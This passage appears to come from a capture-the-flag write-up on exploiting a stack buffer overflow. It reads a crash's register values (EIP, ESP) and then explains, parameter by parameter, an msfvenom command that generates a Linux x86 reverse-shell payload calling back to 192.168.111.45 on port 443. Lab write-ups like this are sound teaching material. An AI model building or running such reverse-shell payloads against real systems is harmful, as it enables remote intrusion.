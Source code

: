 ![](/assets/post/IMF/r2.png)

4. **`eip` Register Has an Unusual Value (`0xfffffb43`)**:

    - The `eip` register has an unusual value (`0xfffffb43`), indicating that the program execution attempted to jump to an invalid memory address, causing a **segmentation fault**.
    
    - The contents of the registers are consistent with a **stack overflow**, especially because the `esp` register is pointing to memory addresses that appear to have been corrupted due to the injected data.
    
    - The string you introduced (a sequence generated by a pattern technique) overwrote the return addresses on the stack.


The next step is to adjust a payload or shellcode pointing to **EIP**.

![](/assets/post/IMF/ms.png)

- **msfvenom**: The tool used to create payloads (exploits).
- **-p linux/x86/shell_reverse_tcp**: Specifies the type of payload, in this case, a reverse shell for a Linux x86 system using TCP.
- **LHOST=192.168.111.45**: The local IP address to which the reverse shell will connect.
- **LPORT=443**: The local port used for the reverse connection.
- **-b '\x00\x0a\x0d'**: Specifies the problematic characters to avoid in the payload (e.g., null byte, newline, carriage return).
- **-f c**: The output format, in this case, C code.
